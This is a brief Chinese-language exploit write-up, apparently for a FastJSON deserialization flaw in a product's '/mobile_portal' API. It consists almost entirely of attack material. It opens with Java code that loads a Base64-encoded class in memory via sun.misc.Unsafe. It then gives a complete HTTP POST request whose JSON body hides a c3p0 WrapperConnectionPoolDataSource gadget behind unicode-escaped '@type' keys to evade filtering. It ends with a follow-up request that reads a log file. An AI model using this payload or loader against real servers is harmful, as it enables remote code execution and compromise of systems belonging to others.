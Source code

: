 ```plain
String str = "xxxxx";
byte[] bytes = Base64.getDecoder().decode(str);
Field theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
Unsafe unsafe = (Unsafe)theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bytes, null).newInstance();
```

## POC

[https://mp.weixin.qq.com/s/9TsQhLcTSVDYW3usG1j5Xw](https://mp.weixin.qq.com/s/9TsQhLcTSVDYW3usG1j5Xw)

对于unicode字符，FastJSON会自动处理解析的

```plain
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_82116c626a8d504a5c0675073362ef6f=1666334057
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/json
Content-Length: 3680

[{"userMessageId":"{\"@\u0074\u0079\u0070\u0065\":\"\u0063\u006f\u006d\u002e\u006d\u0063\u0068\u0061\u006e\u0067\u0065\u002e\u0076\u0032\u002e\u0063\u0033\u0070\u0030\u002e\u0057\u0072\u0061\u0070\u0070\u0065\u0072\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\",\"\u0075\u0073\u0065\u0072\u004f\u0076\u0065\u0072\u0072\u0069\u0064\u0065\u0073\u0041\u0073\u0053\u0074\u0072\u0069\u006e\u0067\":\"\u0048\u0065\u0078\u0041\u0073\u0063\u0069\u0069\u0053\u0065\u0072\u0069\u0061\u006c\u0069\u007a\u0065\u0064\u004d\u0061\u0070:HEX;\"}|","channelId":"111","title":"111","content":"222","deviceType":"androidphone","serviceProvider":"baidu","deviceFirm":"other"}]
```

然后再 Get 访问`/mobile_portal/api/systemLog/pns/loadLog/app.log`
